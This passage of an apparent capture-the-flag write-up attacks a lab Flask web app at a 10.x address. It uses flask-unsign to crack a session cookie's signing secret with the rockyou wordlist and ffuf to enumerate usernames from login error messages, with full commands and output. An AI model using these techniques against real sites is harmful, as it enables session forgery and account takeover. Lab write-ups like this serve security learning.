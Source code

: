 ```
{
  "logged_in": true,
  "username": "thehated"
}
```

```
"c\u0017e,"
```

Knowing that this web server is running Python, it's possible that this is a Flask session cookie, as Python websites are often built with Flask.

A tool called flask-unsign will help us here. It deals with Flask cookies and will even try to brute force the signing secret. We can put our cookie in, and it cracks:

```
thehated@debian:~$ flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGhlaGF0ZWQifQ.YxdlLA._lcrtN-DCCQh4qMis3XX-5YZG_o" --no-literal-eval --wordlist ~/SecLists/Passwords/Leaked-Databases/rockyou.txt

[*] Session decodes to: {'logged_in': True, 'username': 'thehated'}  
[*] Starting brute-forcer with 8 threads..  
[+] Found secret key after 17152 attempts  
b'secret123'
```

But we don't have a username. Luckily, we can enumerate users at the sign in page. If I enter a wrong username:
![noterwronguser](https://cybersec.deadandbeef.com/images/noterwronguser.png)

But if we enter a correct username:
![noterrightuser](https://cybersec.deadandbeef.com/images/noterrightuser.png)

There is a different message for a valid user and wrong password.

We can enumerate valid users with ffuf and we find one pretty quick:
```
thehated@debian:~$ ffuf -u http://10.10.11.160:5000/login --data "username=FUZZ&password=Noter" -H 'Content-Type: application/x-www-form-urlencoded' -w ~/SecLists/Usernames/xato-net-10-million-usernames.txt -mr "Invalid login"

       /'___\  /'___\           /'___\          
      /\ \__/ /\ \__/  __  __  /\ \__/          
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\         
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/         
        \ \_\   \ \_\  \ \____/  \ \_\          
         \/_/    \/_/   \/___/    \/_/          
  
      v1.1.0  
________________________________________________  
  
:: Method           : POST  
:: URL              : http://10.10.11.160:5000/login  
:: Wordlist         : FUZZ: /home/thedoug/SecLists/Usernames/xato-net-10-million-usernames.txt  
:: Header           : Content-Type: application/x-www-form-urlencoded  
:: Data             : username=FUZZ&password=Noter  
:: Follow redirects : false  
:: Calibration      : false  
:: Timeout          : 10  
:: Threads          : 40  
:: Matcher          : Regexp: Invalid login  
________________________________________________  
  
blue                    [Status: 200, Size: 2027, Words: 432, Lines: 69]
```
